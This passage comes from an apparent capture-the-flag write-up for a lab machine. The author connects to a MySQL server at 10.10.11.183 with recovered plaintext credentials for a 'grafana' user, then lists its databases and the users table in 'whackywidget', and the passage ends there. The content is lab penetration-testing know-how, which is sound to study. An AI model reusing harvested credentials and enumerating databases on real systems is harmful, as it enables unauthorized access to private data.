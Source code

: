 I’ll try these creds to connect to the DB, and they work:

    
    
    oxdf@hacky$ mysql -h 10.10.11.183 -u grafana -p'dontStandSoCloseToMe63221!'
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 10
    Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)
    
    Copyright (c) 2000, 2022, Oracle and/or its affiliates.
    
    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    mysql>
    

### SSH

#### Enumerate Databases

MySQL is running two non-standard databases, `grafana` and `whackywidget`:

    
    
    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | grafana            |
    | information_schema |
    | mysql              |
    | performance_schema |
    | sys                |
    | whackywidget       |
    +--------------------+
    6 rows in set (0.10 sec)
    

Looking in whacky widget, there’s only one table:

    
    
    mysql> use whackywidget;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Database changed
    mysql> show tables;
    +------------------------+
    | Tables_in_whackywidget |
    +------------------------+
    | users                  |
    +------------------------+
    1 row in set (0.08 sec)
    
